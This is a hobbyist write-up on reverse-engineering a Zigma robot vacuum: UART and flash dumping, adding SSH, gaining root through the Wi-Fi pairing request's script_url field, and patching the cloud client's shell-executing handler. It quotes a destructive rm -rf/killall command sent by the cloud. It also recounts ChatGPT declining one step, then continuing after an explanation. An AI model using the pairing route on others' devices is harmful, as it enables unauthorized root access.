


# How we hacked the Zigma Spark-980

I wanted my vacuum to clean the house every day again. To get there, we had to work out how to get into the robot, what had happened to its Wi-Fi, and how to tell it to clean without going through the manufacturer's app.

## The serial port showed us how the robot booted

We opened the robot and connected a 3.3 V UART adapter to the main board. At 115200 baud, we could watch U-Boot and Linux start. U-Boot reported 64 MiB of RAM and 32 MiB of Macronix SPI NOR flash. The boot log also showed where to find the device tree and kernel in that flash. Unfortunately, I don't remember the RX and TX pin order and couldn't work it out from my photos. I'm fairly sure TX was closest to GND. If you want to read the UART, double-check GND first.

Here is an excerpt from our original UART capture on Ciccio (the name of my first robot). The omitted lines are marked with `[...]`.

```text
U-Boot SPL 2017.01-rc2 (Jun 09 2020 - 14:18:49)
DRAM: 64 MiB
Trying to boot from SPI

U-Boot 2017.01-rc2 (Jun 09 2020 - 14:18:49 +0800) Amicro

Model: Linux SDK
DRAM:  64 MiB
SF: Detected mx25l25635f with page size 256 Bytes, erase size 64 KiB, total 32 MiB
[...]
device 0 offset 0x100000, size 0x10000
SF: 65536 bytes @ 0x100000 Read: OK
device 0 offset 0x110000, size 0x300000
SF: 3145728 bytes @ 0x110000 Read: OK
## Flattened Device Tree blob at 41800000
   Booting using the fdt blob at 0x41800000
   Loading Device Tree to 42dfa000, end 42dffcb6 ... OK

Starting kernel ...
[...]
[INIT] starting ygclient
[INIT] starting daemon
[daemon] daemon start, version: 2.2
[daemon] register signal handler
[daemon] wait client connect...
uart debug server start
```

[Read the full UART boot capture](uart-boot-original.txt) with network identifiers redacted.

Watching the boot was easy compared with getting a shell. After Linux started, the factory debug server took over the serial port. We could read what the robot was doing, but typing into the terminal did not give us a login prompt.

## We read the flash and added SSH



The UART pads are at the lower right. From top to bottom, the first three pads are provisionally labelled RX, TX, and GND. Verify RX and TX on the board before wiring. The fourth pad is the power pad and is unlabelled in the photo. For the UART session, I powered the board directly from the robot's battery and harness.

The SPI NOR flash is the small eight-pin chip just above and to the right of the AM580. The diagram shows the MX25L25645G package from above, rotated so the pin 1 mark is at the upper left. Use the mark on the actual chip to orient it before connecting any wires. [Macronix datasheet](https://www.macronix.com/Lists/Datasheet/Attachments/8906/MX25L25645G%2C%203V%2C%20256Mb%2C%20v2.0.pdf)

```text
                    MX25L25645G (top view)

                          +---------+
               CS#   1 ---|o        |--- 8  VCC (3.3 V)
       MISO/SO/SIO1  2 ---|         |--- 7  RESET#/SIO3
           WP#/SIO2  3 ---|         |--- 6  SCLK
                GND  4 ---|         |--- 5  MOSI/SI/SIO0
                          +---------+
                           o = pin 1
```

We connected a Raspberry Pi Pico running [`pico-serprog`](https://github.com/stacksmashing/pico-serprog) to the flash chip and used `flashrom` to make two independent 32 MiB reads. Both copies matched byte for byte. With the boot log and the dump side by side, we could separate the bootloader, device tree, kernel, read-only SquashFS system, and writable JFFS2 data partition on the robot we were testing.



For the flash work, I disconnected the robot's battery and dock. I desoldered the chip, soldered pins 1–4 back onto the board, and put Kapton tape over the pads for pins 5–8. The Pico supplied 3.3 V directly to the isolated VCC pin, with a common ground on pin 4.

In these pictures, I had left WP# unconnected on one robot. When I tried to write the second robot's flash to enable SSH, I had to connect WP# to 3.3 V as well. A few weeks later, we also found that the robots had different flash layouts and confirmed active per-block write protection on Ciccia. The partition table below shows the layout differences. The block locks are a separate layer of protection from the WP# pin.

### Raspberry Pi Pico wiring

| Flash pin | Signal | Raspberry Pi Pico connection |
| ---: | --- | --- |
| 1 | CS# | GP1 (physical pin 2) |
| 2 | MISO / SO / SIO1 | GP4 (physical pin 6) |
| 3 | WP# / SIO2 | 3V3 OUT (physical pin 36), held high |
| 4 | GND | GND (physical pin 3 or another ground pin) |
| 5 | MOSI / SI / SIO0 | GP3 (physical pin 5) |
| 6 | SCLK | GP2 (physical pin 4) |
| 7 | RESET# / SIO3 | 3V3 OUT (physical pin 36), held high |
| 8 | VCC | 3V3 OUT (physical pin 36) |

For the forensic analysis, I made extensive use of ChatGPT, which sped up the next steps more than I could have imagined. Thanks for that, mate! <3

Inside SquashFS we found Dropbear, a small SSH server that was already on the robot. We also found that the factory boot scripts ran startup hooks from the writable partition. That gave us a way in. We added our public key to `/root/.ssh/authorized_keys` and a startup hook to launch Dropbear. We rebuilt the JFFS2 partition, wrote the modified image back, and checked the flash again. The bootloader, device tree, kernel, and SquashFS were unchanged. On the next boot, we could log in over SSH.

I did this on two robots I have at home, called Ciccio (downstairs) and Ciccia (upstairs). They had different flash layouts. Then I saw another Zigma robot on Wallapop for just €30 and couldn't resist. I bought it on the pretext that I needed spare parts and, of course, to try hacking it from scratch. Our kids named the newcomer "Caccamora", and I tried to hack into it without opening it up. That story comes later.

### Original flash layouts

Each cell gives the start offset and size within the 32 MiB SPI NOR.

| Region | Ciccio | Ciccia | Caccamora |
| --- | --- | --- | --- |
| SPL / U-Boot | `0x000000` · 1 MiB | `0x000000` · 320 KiB | `0x000000` · 1 MiB |
| Device tree | `0x100000` · 64 KiB | `0x050000` · 64 KiB | `0x100000` · 64 KiB |
| Linux kernel | `0x110000` · 3 MiB | `0x060000` · 3 MiB | `0x110000` · 3 MiB |
| SquashFS root filesystem | `0x410000` · 6 MiB | `0x360000` · 8 MiB | `0x410000` · 6 MiB |
| JFFS2 data | `0xA10000` · 21.9375 MiB | `0xB60000` · 4.625 MiB | `0xA10000` · 21.9375 MiB |
| Separate firmware partition | — | `0x1000000` · 16 MiB | — |

On Ciccio and Caccamora, the data partition is mounted at `/root`. Ciccia uses its data partition as an overlay and has a separate firmware partition. The different offsets matter when deciding which part of a dump to extract or write back.

## We found two ways in without rewriting the flash directly

### Getting the UART console back

When we revisited the serial console, we traced it to the factory `debug_server`. We confirmed the unlock on Ciccio during a recovery. I had run out of tokens, started making changes without a fallback, and, well… I wanted to get back in without soldering wires to the SPI flash again.

I used ChatGPT for the forensic work again. I asked it to trace which program was using the UART. On Ciccio, `/etc/inittab` starts `/etc/autologin` on `ttyS2`, and the factory debug setting sends it to `/root/bin/debug_server`. By analysing that binary, we found the frame the server expects before it opens the console. ChatGPT initially declined to help with this part, then later identified the frame and put together the [Python UART console script](zigma_uart_console.py). That was the only time I saw ChatGPT hesitate to help me. It continued after I explained what I was trying to do.

1. Connect a **3.3 V TTL** USB-to-UART adapter to the robot. Verify the board pads first. Connect GND to GND, robot TX to adapter RX, and robot RX to adapter TX. Leave the adapter's power lead disconnected.
2. From the repository root, run the script in an interactive terminal on Linux or macOS. Replace `/dev/ttyUSB0` with your adapter's device path.

   ```sh
   python3 hack/zigma_uart_console.py /dev/ttyUSB0
   ```

3. Watch the boot output at 115200 baud, 8N1. Once you see `uart debug server start`, press **Enter** once. The script sends the binary frame instead of a newline. After that, it passes your keystrokes through to the robot.
4. Press **Ctrl+]** to exit and restore your terminal settings.

### Getting SSH through Wi-Fi pairing

The way in without opening the robot came from Wi-Fi pairing. I asked ChatGPT to analyse the pairing process to see whether we could send anything besides the Wi-Fi configuration. It turns out that in pairing mode, the factory client, `/root/yg/ygclient`, creates a `ROBOT###` access point and accepts a pairing request over HTTP. On the firmware we examined, the request could include `script_url` and `script_md5`. The client would fetch the script, check its MD5, and run it as root. The checksum matched whatever script we hosted, so the trick was just to supply our own script and its matching checksum.

#### What ran where

These are the local addresses from our notes. The server URL is the one used in the documented pairing command.

| Device | Local address or URL | What it did |
| --- | --- | --- |
| Robot in pairing mode | `http://192.168.99.1/` | Accepted the pairing request on the robot's access point. |
| Pairing computer | `192.168.99.x` on `ROBOT###` | Ran `send_pairing.py`, which sent one HTTP POST with the Redmond profile, the home Wi-Fi settings, and the script URL and checksum. |
| Second computer on the home network | `http://192.168.1.75:8000/install.sh` | Ran `serve_install.py` and kept the script available while the pairing computer was connected to the robot. |
| Caccamora on the home network | `192.168.1.28` | Downloaded the script from the second computer and then became reachable over SSH on port 22. |

The second computer was needed in this setup because the pairing computer used its Wi-Fi connection to talk to the robot. The robot needed to reach the server after joining the home network. One computer with two network interfaces can serve both roles, and the current wizard can also do it with one Wi-Fi interface by switching back to the home network after sending the request.

The three fields that made the difference looked like this. The sender calculated the checksum from the exact bytes served at that URL.

```json
{
  "App_Type": "Redmond",
  "script_url": "http://192.168.1.75:8000/install.sh",
  "script_md5": "<MD5 of the served install.sh>"
}
```

#### What the downloaded script did

The file we served was `install.sh`. The SSH part was small. It appended our public key to `/root/.ssh/authorized_keys`, set the directory and file permissions to `700` and `600`, and installed a startup hook at `/root/etc/init.d/S98dropbear`. The hook checked that the authorized keys file existed and that Dropbear was not already running. It then started the SSH server already present on the robot:

```sh
/usr/sbin/dropbear -R -s -g -j -k -p 22
```

The hook also ran during installation, so we could try SSH straight away and use the same access after a reboot. The current repository contains the [pairing sender](../installer/computer/send_pairing.py) and the [installation script template](../installer/robot/install.sh.in) that carries out the SSH stage.

Caccamora was the €30 robot from Wallapop. We got SSH on it through pairing without using the serial port or an external flash programmer. That became the entry point for the [Zigma Free installer](../installer/README.md) on supported firmware.

## We caught the Wi-Fi shutdown command

At this stage I was using the REDMOND Robot app to control the robot, pairing it as a Redmond RV-R670S. This made the robot stable, but I still wanted to understand why it was losing Wi-Fi just after pairing with the Zigma app. So I asked ChatGPT to analyse the factory cloud client, `ygclient`.

On Caccamora, we captured an incoming WebSocket message inside the running client. The outer message had `packet_type: general_2_device`. Inside it, `Notify_Info` was `upload_log`, and the `CMD` field contained this exact command:

```sh
rm -rf /root/yg/etc/wpa_supplicant.conf && killall wpa_supplicant && killall ygclient
```

It deletes the saved Wi-Fi configuration, stops the Wi-Fi process, and then stops the cloud client itself. The robot dropped off the network. That was the command we started calling “auto-destruct”. From that moment on, I could only start cleaning with the buttons on the robot or the IR remote. I thought about using an Arduino and an IR LED to send the command every day, but then I would need one for each robot.

We later reproduced the same reply from a computer by sending an empty `update_shadow` message to the cloud service. The reply matched the one captured on the robot byte for byte. The computer only inspected the reply. The capture confirmed that the service delivered it, and we could not tell who or what had triggered it.

Two things worried me. The first was that a command delivered through the service could take the robot offline. The second was that the command did not have to be about Wi-Fi at all. The `upload_log` handler passed the received command through `run_cmd()` to `popen()`, which runs it through a shell. That made me wonder what else someone with access to that message path could do with the robots, including using them in a denial-of-service attack. That was a possibility we considered.

### Patching the original ygclient

I asked ChatGPT to follow the code from the incoming messages to the functions that actually did the work. We compared the binary from the robot with the one extracted from flash, used the remaining symbols and strings to find the handlers, and followed their ARM Thumb instructions. In the end, we changed eight instructions in the exact build we had examined.

| Path | What the original code did | What we patched |
| --- | --- | --- |
| `mConfigUpgrade` | Applied downloaded configuration changes through system commands. | Replaced the first instruction with `bx lr` so the function returns immediately. |
| `mUpgradeMessageParse` | Parsed the `Upgrade` and `device_upgrade` notifications. | Made it return immediately with `bx lr`. |
| `mHandleUpgradeMessage` | Processed internal upgrade messages. | Made it return immediately with `bx lr`, covering this entry point as well as the cloud parser. |
| `feedback_error_log` | Prepared diagnostic data for upload. | Added an unconditional branch past the log collection code. |
| `reset_robot` | Forwarded a `ResetRobot` command to the local controller. | Branched to the unsupported-command cleanup path before the reset could be forwarded. |
| `upload_log` | Read fields such as `FILE`, `CMD`, and `MQTT_SHELL`. It could execute a shell command and upload its output or files. | Branched directly to the next notification check. We kept `run_cmd()` available for the client's own internal operations. |
| `platform_notify` | Sent an `enter_debug_mode` message to the local app server. | Branched to the end of the handler before the debug message was built. |
| `disable_device` | Marked the robot disabled and changed its local registration state. | Skipped that branch in the outer WebSocket dispatcher. |

The patcher checked the original binary's SHA-256 and the expected bytes at each offset. It also changed the first character of ten protocol strings as a second layer. The instruction changes were what blocked the handlers. We disassembled the result to check the new branches, kept the original binary as a backup, and confirmed that the patched client could reconnect to Redmond.

Later we added a small logger to record blocked notifications. On Caccamora it recorded three more copies of the Wi-Fi shutdown command. The Wi-Fi configuration stayed in place and the client reconnected. That was the live check for the path we had actually seen used. This patch was how we kept the robot usable at the time, before we built a local mode that could run with the factory cloud client disabled.

On the computer, we used `file` and `readelf` to identify the ARM ELF and map virtual addresses to file offsets. We used `strings -a -t x` to find protocol names such as `upload_log` and `CMD`, and `readelf -Ws` to find the symbols the binary still had. Then we used GNU's ARM disassembler, `arm-linux-gnueabi-objdump`, to follow the branches from those handlers to the shell and upload code.

For example, this command shows the branch in the `upload_log` handler:

```sh
arm-linux-gnueabi-objdump -d --start-address=0x612f6 --stop-address=0x612f8 ygclient.robot-original
```

Running the same command on the patched binary shows where the branch now goes:

```text
Original:  612f6: e249  b.n 6178c
Patched:   612f6: e0df  b.n 614b8
```

The original branch could reach the shell and file-upload code. The patched branch jumps straight to the next notification check. For these eight edits, a Python script checked the input hash and wrote the replacement bytes directly into a copy of the ELF. We checked the result again with `readelf` and `objdump`. For the later logging hook, we wrote new Thumb code, assembled and linked it with the GNU ARM tools, and added it to the executable.

On the computer, we ran selected ARM instructions in Unicorn, including the logging hook and its entry branch. The tests supplied stand-ins for the client's JSON helpers and system calls so we could check the logging and return path. We ran the full patched client on the robot itself, where we could verify the Redmond connection and see the real shutdown message arrive without taking Wi-Fi down.

At this point, the patched client could connect to Redmond again, and we had seen Caccamora ignore the self-destruct command. But I'd already made up my mind. Time to free the robots. Did they ever realise that there were a few robots ignoring their commands? :-D

## From SSH to Zigma Free

With shell access, we could watch what happened when we tapped **Pause** or **Resume** in the original app. The useful traffic was inside the robot. The factory client passed high-level commands to `wifi_app_server_grit`, which communicated with the HOSLAM navigation process, `demo_rplidar`, through System V message queues.

Once we understood the message format, we could send commands such as clean, pause, and dock directly to the navigation process. That gave us the basis for Zigma Free. The browser interface and local services run on the robot, while the factory navigation software still drives it and handles cleaning.

### The commands we decoded

We compared the app actions with the navigation logs and traced the calls to `msgsnd()`. For basic cleaning controls, `zigmactl` sends directly to the navigation queue, whose key is derived with `ftok("/", 14)`. On our first capture it was `0x0e03046a`. The key can change with the filesystem, so the tool derives it at runtime.

The message has System V type `1` and a 4,096-byte body. The first four bytes give the frame length as a little-endian integer. The frame follows, and the rest is zero padding. The frames below start with `AA 03`, followed by three command bytes and a checksum equal to their sum modulo 256.

| Action | Hex frame |
| --- | --- |
| Start or resume cleaning | `AA 03 02 22 02 26` |
| Pause | `AA 03 02 26 00 28` |
| Return to the dock | `AA 03 02 22 03 27` |
| Quiet suction | `AA 03 02 24 02 28` |
| Normal suction | `AA 03 02 24 00 26` |
| Strong suction | `AA 03 02 24 01 27` |

When we ask Zigma Free to start cleaning at a given suction level, it sends the suction frame first and then the clean frame.

We also decoded higher-level commands that go to `wifi_app_server_grit` as JSON on the queue derived with `ftok("/", 1)`. These messages use a different format from the six-byte frames above.

| Action | System V type | Native JSON fields |
| --- | ---: | --- |
| Go to a point | 1 | `goto_point: [x, y]` |
| Clean a rectangle | 1 | `WorkStatus: "PlanningRect"`, `planning_rect_x`, `planning_rect_y` |
| Set no-go zones | 1 | `forbidden_zone_info`, with four corners and cleaning and mopping flags for each zone |
| Resume interrupted cleaning | 1 | `ContinueCleaning` |
| Adjust voice volume | 4 | `Volume`, from 0 to 100 |
| Set obstacle crossing | 4 | `over_ridge` |
| Clear the current map | 1 | `WorkStatus: "ClearMap"` |
| Delete a saved map | 9 | `cmd: "del_local_map"`, `DelHismapIds` |
| Load a saved map | 9 | `HisMapId`, `HisFilePath` |

The adapter messages also include `ProtocolVersion: "1.0"` and `cmd_origin: "app"`. Sending a message tells us it reached the queue. For actions that need confirmation, we look for the corresponding change in the robot's status or map.

All of this was very easy to check while running connected to the Zigma webcloud. Otherwise reverse engineer all of these would have taken longer.

### How we read the maps

The first clue was a set of `MAP_*` files under `/root/hoslam/`. We pulled one from the flash dump and looked at it with `xxd` and `strings`. The file began with `relo` and contained a `GRID` section. By matching the header fields against the decompressed data, we worked out the width, height, resolution, and origin. Two raw LZ4 blocks held the map itself. The first expands to one little-endian 16-bit occupancy value per cell. The second contains one byte of auxiliary flags per cell. We could draw the floor plan from the first plane while leaving the unrecognised flags intact.

The map shown during operation comes from the factory software's local cache. We found a 200 KiB System V shared-memory segment using `ftok("/", 3)` and could attach to it read-only. The observer compares two copies to avoid using a snapshot that changed halfway through a read. Zigma Free uses the local map cache for the simplified view and the saved occupancy data for **Detailed Map**.

### How we read the LiDAR scans

At first we looked at the TCP listener on port 9999. We could decode its changing map rasters and paths, but we did not find raw laser scans there. The useful clue came from tracing the scan exporter inside `demo_rplidar`. It copied 360 floating-point ranges from the navigation process's `CommVSLAM` object before packing them for an internal SPI transport.

That gave us a place to read the ranges without stopping navigation. On the supported binary build, our observer checks the executable and object identity, then reads the 360 values through `/proc/<pid>/mem` opened read-only. It compares two copies, rejects invalid values, and publishes distances in millimetres to the authenticated `/api/laser` endpoint while the live view is open. The browser plots the returns around the robot and marks an old scan when fresh readings stop coming in. What we can timestamp is the read from the navigation cache. The sensor's own measurement timestamp remains unavailable.

Reading the LiDAR is of no use to the user, but... this was the cooolest part :-D.

## Try it on your robot

- [Manual hack](MANUAL-HACK.md) covers the SSH access procedure.
- [Install Zigma Free](../installer/README.md) covers the full installation with the wizard.
